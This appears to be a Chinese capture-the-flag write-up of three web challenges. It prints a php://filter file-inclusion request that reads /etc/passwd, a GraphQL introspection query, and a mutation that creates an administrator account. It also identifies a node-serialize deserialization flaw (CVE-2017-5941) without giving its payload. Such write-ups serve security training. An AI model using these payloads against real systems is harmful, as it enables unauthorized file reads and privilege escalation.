









bugku - write up 2
===

## [WEB] baby lfi

### 题解

打开提示参数是 language, 直接带出文件失败, 考虑用伪协议:

```
GET /?language=php://filter/convert.base64-encode/resource=/etc/passwd 
```





## [WEB] simple web app

### 题解

注册登录抓包, 直接抓到了查询:



一眼 GraphQL, 试试刚刚记录过的万能渗透测试:

```GraphQL
query IntrospectionQuery{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
```

爆了一大堆:



查一条试试:



这是当前用户的, 根据回显的信息, 有 `role` 这个属性, 那么我们显然是需要查管理员账户;

审计一下之前的结果, 构造这个 payload 尝试创建管理员账户:

```json
{"query":"mutation {addUser(username:\"x\",password:\"x\",email:\"x\",role:ADMIN)}"}
```


前台登录, 成功:



## [WEB] Sparta

### 题解

一个登录界面, 可以用访客身份登录, 需要输入访客信息, 访客登录后抓包看见 cookie:





验证发现 cookie 就是简单的对 json 用了 base64 编码;

构造一个恶意的 json 试试: 令 username 为 `1"}`, 发生报错:



注意报错信息, 使用了 node-serialize 库, 那么很可能有反序列化漏洞 (RCE), 找一下资料:

> [技术讨论 | 记一次Node.Js反序列化攻击测试](https://www.freebuf.com/news/180882.html)

> [node反序列化RCE(CVE-2017-5941)](https://antel0p3.github.io/2024/01/10/node%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96RCE/)

后续试了下,  是 CVE-2017-5941;

## 

